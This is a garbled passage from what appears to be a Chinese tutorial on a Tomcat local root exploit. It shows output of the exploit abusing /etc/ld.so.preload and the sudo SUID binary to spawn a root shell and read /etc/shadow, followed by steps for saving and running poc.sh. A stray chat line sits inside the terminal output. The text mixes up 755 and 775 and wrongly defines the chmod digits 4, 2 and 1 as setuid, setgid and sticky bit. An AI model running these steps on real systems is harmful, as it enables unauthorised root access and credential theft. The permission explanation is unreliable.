 ```
-rw-r–r-- 1 tomcat7 root 19 Sep 30 22:28 /etc/ld.so.preload

[+] Adding /tmp/privesclib.so shared lib to /etc/ld.so.preload

[+] The /etc/ld.so.preload file now contains:

/tmp/privesclib.so

[+] Escalating privileges via the /usr/bin/sudo SUID binary to get root!

[+] Rootshell got assigned root SUID perms at:

-rwsrwxrwx 1 root root 1037464 Sep 30 22:27 /tmp/tomcatrootsh

Please tell me you’re seeing this too ![:wink:](../img/72b158ac013b9bc9875813ca4ffe6fc1.png ":wink:")

[+] Executing the rootshell /tmp/tomcatrootsh now! `tomcatrootsh-4.3# id

uid=110(tomcat7) gid=118(tomcat7) euid=0(root) groups=118(tomcat7)

tomcatrootsh-4.3# whoami

root

tomcatrootsh-4.3# head -n3 /etc/shadow

root:$6$oaf[cut]:16912:0:99999:7:::

daemon:*:16912:0:99999:7:::

bin:*:16912:0:99999:7:::

tomcatrootsh-4.3# exit

exit` 
```

首先我们下载poc文件，然后执行命令`cd /tmp`进入目录,然后编辑文件`vim poc.sh`。将桌面的poc.sh使用Notepad++打开，将文件内容粘贴进去。然后按键盘Esc键，再输入`:wq`，之后按 Enter 键将文件保存。
如果无法写入文件，使用命令

```
chmod 755 poc.sh 
```

执行命令后，再次重复上一步即可，chmod的意思是改变文件的权限，775是什么权限呢？第一个数字代表文件所属者的权限，第二个数字代表文件所属者所在组的权限，第三个数字代表其它用户的权限，7=4+2+1

> 4：执行时设置用户ID，用于授权给基于文件属主的进程，而不是给创建此进程的用户。
> 2：执行时设置用户组ID，用于授权给基于文件所在组的进程，而不是基于创建此进程的用户。
> 1：设置粘着位。
